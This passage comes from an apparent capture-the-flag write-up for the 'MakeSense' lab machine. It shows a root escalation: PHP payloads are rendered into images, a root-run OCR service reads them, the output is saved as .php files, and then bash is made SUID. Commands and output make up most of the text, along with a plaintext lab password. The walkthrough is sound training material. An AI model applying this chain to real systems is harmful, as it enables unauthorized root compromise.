root        1309  0.0  0.0   7340  3588 ?        S    19:01   0:03          \_ /bin/bash /root/.scripts/start_ocr4.sh
root        1411  0.0  0.7 228488 30464 ?        S    19:01   0:00              \_ php -S 127.0.0.1:8001 -t /root/ocr4/
root       24420  0.0  0.0   5684  2060 ?        S    20:28   0:00              \_ sleep 1
<--- CUT FOR BREVITY --->
```

## Privilege Escalation to root

### Enumeration of Port 8001/TCP

The local service required HTTP Basic Authentication.

```shell
walter@makesense:~$ curl -i http://127.0.0.1:8001/
HTTP/1.0 401 Unauthorized
Host: 127.0.0.1:8001
Date: Sat, 04 Jul 2026 20:29:46 GMT
Connection: close
X-Powered-By: PHP/8.3.6
Set-Cookie: PHPSESSID=u7fta7ed0f9nmso3dndlh73nhg; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
WWW-Authenticate: Basic realm="OCR Protected"
Content-type: text/html; charset=UTF-8

Authentication required.
```

The `walter` credentials were accepted, providing access to the OCR web interface.

```shell
walter@makesense:~$ curl -i -u 'walter:JbhHDAEgXvri3!' http://127.0.0.1:8001/
HTTP/1.1 200 OK
Host: 127.0.0.1:8001
Date: Sat, 04 Jul 2026 20:30:54 GMT
Connection: close
X-Powered-By: PHP/8.3.6
Set-Cookie: PHPSESSID=ds3c6v655uv27jd7d9qp8v31da; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-type: text/html; charset=UTF-8


<!DOCTYPE html>
<html lang="en">
<head>
<--- CUT FOR BREVITY --->
<main class="shell">

    <p class="wordmark">MakeSense</p>

    <h1>Draw text.<br>Read it back.</h1>

    <p class="lede">Sketch a word or short phrase with your cursor or finger. The recognizer returns the plain text, ready to save to a file.</p>

    <div class="canvas-wrap">
        <canvas id="canvas" width="500" height="200"></canvas>
    </div>

    <div class="tools">
        <div class="stroke-group">
            <span class="label">Stroke</span>
            <button type="button" class="stroke-opt" data-w="2">Fine</button>
            <button type="button" class="stroke-opt active" data-w="4">Medium</button>
            <button type="button" class="stroke-opt" data-w="7">Bold</button>
        </div>
        <div class="action-group">
            <button type="button" class="link-btn" onclick="clearCanvas()">Clear</button>
            <button type="button" class="solid-btn" onclick="sendCanvas()">Recognize</button>
        </div>
    </div>

    <form method="post" id="canvasForm" style="display:none;">
        <input type="hidden" name="canvas_image" id="canvas_image">
    </form>

    
    
    
</main>

<script>
const canvas = document.getElementById('canvas');
const ctx = canvas.getContext('2d');
let drawing = false;

ctx.lineWidth = 4;
ctx.lineCap = 'round';
ctx.lineJoin = 'round';
ctx.strokeStyle = '#0a0a0a';

document.querySelectorAll('.stroke-opt').forEach(btn => {
    btn.addEventListener('click', () => {
        document.querySelectorAll('.stroke-opt').forEach(b => b.classList.remove('active'));
        btn.classList.add('active');
        ctx.lineWidth = parseFloat(btn.dataset.w);
    });
});

function pos(e) {
    const rect = canvas.getBoundingClientRect();
    const scaleX = canvas.width / rect.width;
    const scaleY = canvas.height / rect.height;
    const point = e.touches ? e.touches[0] : e;
    return {
        x: (point.clientX - rect.left) * scaleX,
        y: (point.clientY - rect.top) * scaleY,
    };
}

function start(e) {
    e.preventDefault();
    drawing = true;
    const p = pos(e);
    ctx.beginPath();
    ctx.moveTo(p.x, p.y);
}

function move(e) {
    if (!drawing) return;
    e.preventDefault();
    const p = pos(e);
    ctx.lineTo(p.x, p.y);
    ctx.stroke();
}

function end() { drawing = false; }

canvas.addEventListener('mousedown', start);
canvas.addEventListener('mousemove', move);
canvas.addEventListener('mouseup', end);
canvas.addEventListener('mouseleave', end);
canvas.addEventListener('touchstart', start, { passive: false });
canvas.addEventListener('touchmove', move, { passive: false });
canvas.addEventListener('touchend', end);

document.addEventListener('keydown', e => {
    if ((e.metaKey || e.ctrlKey) && e.key === 'Enter') {
        e.preventDefault();
        sendCanvas();
    }
});

function clearCanvas() {
    ctx.clearRect(0, 0, canvas.width, canvas.height);
}

function sendCanvas() {
    document.getElementById('canvas_image').value = canvas.toDataURL('image/png');
    document.getElementById('canvasForm').submit();
}
</script>

</body>
</html>
```

### Port Forwarding

An SSH local port forward was created to make the loopback-only OCR service accessible from the attack browser and local tooling.

```shell
┌──(kali㉿kali)-[~]
└─$ ssh -L 8001:127.0.0.1:8001 walter@makesense.htb
walter@makesense.htb's password: 
Welcome to Ubuntu 24.04.4 LTS (GNU/Linux 6.8.0-124-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sat Jul  4 08:38:09 PM UTC 2026

  System load:  0.38              Processes:             239
  Usage of /:   65.0% of 7.53GB   Users logged in:       0
  Memory usage: 16%               IPv4 address for eth0: 10.129.26.222
  Swap usage:   0%


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

2 additional security updates can be applied with ESM Apps.
Learn more about enabling ESM Apps service at https://ubuntu.com/esm

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Sat Jul 4 20:38:10 2026 from 10.10.16.240
```

### Optical Character Recognition (OCR) Portal Enumeration

The `Optical Character Recognition` (`OCR`) portal accepted a canvas image, attempted to recognize text from it, and displayed the recognized output back to the user.



A simple test image was generated to understand the submission flow.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/MakeSense/serve]
└─$ python3 - <<'PY' > /tmp/canvas_dataurl.txt
from PIL import Image, ImageDraw, ImageFont
import base64, io

img = Image.new("RGB", (500, 200), "white")
d = ImageDraw.Draw(img)

try:
    font = ImageFont.truetype("/usr/share/fonts/truetype/dejavu/DejaVuSansMono.ttf", 52)
except:
    font = None

d.text((40, 70), "test", fill="black", font=font)

buf = io.BytesIO()
img.save(buf, format="PNG")
print("data:image/png;base64," + base64.b64encode(buf.getvalue()).decode())
PY
```

The generated data URL was moved into the HTTP serving directory for transfer to the target.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/MakeSense/serve]
└─$ mv /tmp/canvas_dataurl.txt .
```

The file was downloaded on the target.

```shell
walter@makesense:~$ wget http://10.10.16.240/canvas_dataurl.txt
--2026-07-04 20:44:31--  http://10.10.16.240/canvas_dataurl.txt
Connecting to 10.10.16.240:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3775 (3.7K) [text/plain]
Saving to: ‘canvas_dataurl.txt’

canvas_dataurl.txt                                                                                         100%[======================================================================================================================================================================================================================================================================================>]   3.69K  --.-KB/s    in 0.01s   

2026-07-04 20:44:32 (265 KB/s) - ‘canvas_dataurl.txt’ saved [3775/3775]
```

The OCR endpoint and authentication credentials were stored as environment variables.

```shell
walter@makesense:~$ export OCR='http://127.0.0.1:8001'
```

```shell
walter@makesense:~$ export OCR_AUTH='walter:JbhHDAEgXvri3!'
```

Then the test image was submitted to the OCR service while preserving the session cookie.

```shell
walter@makesense:~$ curl -si -u "$OCR_AUTH" -c /tmp/ocr.cookies -b /tmp/ocr.cookies -X POST "$OCR/" --data-urlencode "canvas_image=$(cat /tmp/canvas_dataurl.txt)" -o /tmp/ocr_result.html
```

The response contained hidden fields and a follow-up form, indicating that recognized output could be saved server-side.

```shell
walter@makesense:~$ grep -Eoi 'action="[^"]+|method="[^"]+|name="[^"]+|type="[^"]+|value="[^"]+|textarea[^>]*>' /tmp/ocr_result.html | sort -u
method="post
name="canvas_image
name="viewport
type="button
type="hidden
type="text
```

### Optical Character Recognition (OCR) Output Save Abuse

The `Optical Character Recognition` (`OCR`) workflow recognized text from an image and then allowed the recognized text to be saved to a user-controlled filename. This was dangerous because the `OCR` server was a PHP application running as `root`. If the service saved recognized text into a web-accessible `.php` file without validating the file extension or neutralizing PHP tags, recognized text could become executable PHP code.

To test this, a PNG image was generated containing a short PHP payload.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/MakeSense/serve]
└─$ cat > make_shell_png.py <<'PY'
from PIL import Image, ImageDraw, ImageFont

payload = '<?php system("id"); ?>'

img = Image.new("RGB", (900, 90), "white")
d = ImageDraw.Draw(img)

font_paths = [
    "/usr/share/fonts/truetype/dejavu/DejaVuSansMono.ttf",
    "/usr/share/fonts/truetype/liberation2/LiberationMono-Regular.ttf",
]

font = None
for fp in font_paths:
    try:
        font = ImageFont.truetype(fp, 28)
        break
    except Exception:
        pass

d.text((10, 28), payload, fill="black", font=font)
img.save("shell.png")
PY
```

The image was generated locally because of the missing dependencies on the box.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/MakeSense/serve]
└─$ python3 make_shell_png.py
```

Then we transferred it to the target.

```shell
walter@makesense:~$ wget http://10.10.16.240/shell.png
--2026-07-04 21:00:43--  http://10.10.16.240/shell.png
Connecting to 10.10.16.240:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 6176 (6.0K) [image/png]
Saving to: ‘shell.png’

shell.png                                                                                                  100%[======================================================================================================================================================================================================================================================================================>]   6.03K  --.-KB/s    in 0.004s  

2026-07-04 21:00:43 (1.33 MB/s) - ‘shell.png’ saved [6176/6176]
```

We converted the PNG into the data URL format expected by the application.

```shell
walter@makesense:~$ DATAURL="data:image/png;base64,$(base64 -w0 ./shell.png)"
```

And then we submitted the crafted image to the OCR endpoint.

```shell
walter@makesense:~$ curl -s -u "$OCR_AUTH" -c /tmp/ocr.cookies -b /tmp/ocr.cookies -X POST "$OCR/" --data-urlencode "canvas_image=$DATAURL" -o /tmp/ocr_result.html
```

The `OCR` result confirmed that the PHP payload had been recognized accurately and that an `ocr_id` was generated for saving the output.

```shell
walter@makesense:~$ grep -nEi 'output-text|ocr_id|php|system|notice|error' /tmp/ocr_result.html
14:            --error: #9a2424;
15:            --sans: ui-sans-serif, system-ui, -apple-system, "Helvetica Neue", Helvetica, Arial, sans-serif;
175:        .output-text {
212:        .notice {
218:        .notice.error { color: var(--error); }
219:        .notice.success { color: var(--ink); }
242:            .output-text { font-size: 24px; margin-bottom: 32px; }
281:            <p class="output-text">&lt;?php system(&quot;id&quot;); ?&gt;
286:                <input type="hidden" name="ocr_id" value="ocr_6a49f3d881a1f8.14702292">
```

The `ocr_id` was extracted from the response.

```shell
walter@makesense:~$ OCR_ID=$(grep -oP 'name="ocr_id"\s+value="\K[^"]+' /tmp/ocr_result.html | head -n1)
echo "OCR_ID=$OCR_ID"
OCR_ID=ocr_6a49f3d881a1f8.14702292
```

The recognized output was saved as `id.php`.

```shell
walter@makesense:~$ curl -s -u "$OCR_AUTH" -b /tmp/ocr.cookies -X POST "$OCR/" --data-urlencode "ocr_id=$OCR_ID" --data-urlencode "filename=id.php" --data-urlencode "save_output=1" -o /tmp/ocr_save.html
```

The application confirmed that the output had been saved under the `saved/` directory.

```shell
walter@makesense:~$ grep -nEi 'saved|success|error|invalid|notice|id.php' /tmp/ocr_save.html
14:            --error: #9a2424;
212:        .notice {
218:        .notice.error { color: var(--error); }
219:        .notice.success { color: var(--ink); }
294:            <p class="notice success reveal">Saved as: saved/id.php</p>
```

Requesting the saved PHP file executed the payload through the root-owned PHP server. The output confirmed `uid=0(root)`.

```shell
walter@makesense:~$ curl -s -u "$OCR_AUTH" "$OCR/saved/id.php"
uid=0(root) gid=0(root) groups=0(root)
```

### SUID Bash Privilege Escalation

With root code execution confirmed, a second image was generated containing a payload that set the SUID bit on `/bin/bash`.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/MakeSense/serve]
└─$ cat > make_shell_png.py <<'PY'
from PIL import Image, ImageDraw, ImageFont

payload = '<?php system("chmod 4755 /bin/bash"); ?>'

img = Image.new("RGB", (900, 90), "white")
d = ImageDraw.Draw(img)

font_paths = [
    "/usr/share/fonts/truetype/dejavu/DejaVuSansMono.ttf",
    "/usr/share/fonts/truetype/liberation2/LiberationMono-Regular.ttf",
]

font = None
for fp in font_paths:
    try:
        font = ImageFont.truetype(fp, 28)
        break
    except Exception:
        pass

d.text((10, 28), payload, fill="black", font=font)
img.save("shell.png")
PY
```

The new image was generated.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/MakeSense/serve]
└─$ python3 make_shell_png.py
```

Temporary OCR files were removed before repeating the `OCR` flow.

```shell
walter@makesense:~$ rm -f /tmp/ocr.cookies /tmp/ocr_result.html /tmp/ocr_save.html
```

Also the previous image was removed from the target before we uploaded the new payload file.

```shell
walter@makesense:~$ rm shell.png
```

```shell
walter@makesense:~$ wget http://10.10.16.240:8000/shell.png
--2026-07-05 07:01:01--  http://10.10.16.240:8000/shell.png
Connecting to 10.10.16.240:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 7518 (7.3K) [image/png]
Saving to: ‘shell.png’

shell.png                                            100%[=====================================================================================================================>]   7.34K  --.-KB/s    in 0s      

2026-07-05 07:01:01 (380 MB/s) - ‘shell.png’ saved [7518/7518]
```

The image was converted into a data URL.

```shell
walter@makesense:~$ DATAURL="data:image/png;base64,$(base64 -w0 ./shell.png)"
```

The crafted image was submitted to OCR.

```shell
walter@makesense:~$ curl -s -u "$OCR_AUTH" -c /tmp/ocr.cookies -b /tmp/ocr.cookies -X POST "$OCR/" --data-urlencode "canvas_image=$DATAURL" -o /tmp/ocr_result.html
```

The response confirmed that the OCR engine recognized the intended PHP payload.

```shell
walter@makesense:~$ grep -nEi 'output-text|ocr_id|system|cp|bash|tmp|notice|error' /tmp/ocr_result.html
14:            --error: #9a2424;
15:            --sans: ui-sans-serif, system-ui, -apple-system, "Helvetica Neue", Helvetica, Arial, sans-serif;
175:        .output-text {
212:        .notice {
218:        .notice.error { color: var(--error); }
219:        .notice.success { color: var(--ink); }
242:            .output-text { font-size: 24px; margin-bottom: 32px; }
281:            <p class="output-text">&lt;?php system(&quot;chmod 4755 /bin/bash&quot;); ?&gt;
286:                <input type="hidden" name="ocr_id" value="ocr_6a4a0138def6d1.39605859">
```

The new `ocr_id` was extracted.

```shell
walter@makesense:~$ OCR_ID=$(grep -oP 'name="ocr_id"\s+value="\K[^"]+' /tmp/ocr_result.html | head -n1)
```

Next the recognized payload was saved as a PHP file as we did before.

```shell
walter@makesense:~$ curl -s -u "$OCR_AUTH" -b /tmp/ocr.cookies -X POST "$OCR/" --data-urlencode "ocr_id=$OCR_ID" --data-urlencode "filename=cp.php" --data-urlencode "save_output=1" -o /tmp/ocr_save.html
```

We requested the PHP file  to execute the `chmod` payload.

```shell
walter@makesense:~$ curl -s -u "$OCR_AUTH" "$OCR/saved/cp.php"
```

The permissions on `/bin/bash` confirmed that the SUID bit had been set.

```shell
walter@makesense:~$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1446024 Mar 31  2024 /bin/bash
```

Executing Bash with `-p` preserved the effective UID and provided an interactive root shell.

```shell
walter@makesense:~$ /bin/bash -p
bash-5.2#
```

## root.txt

With root privileges obtained, the root flag could be read.

```shell
bash-5.2# cat root.txt 
ec257582ec613292690ed57e3c56d4f2
```
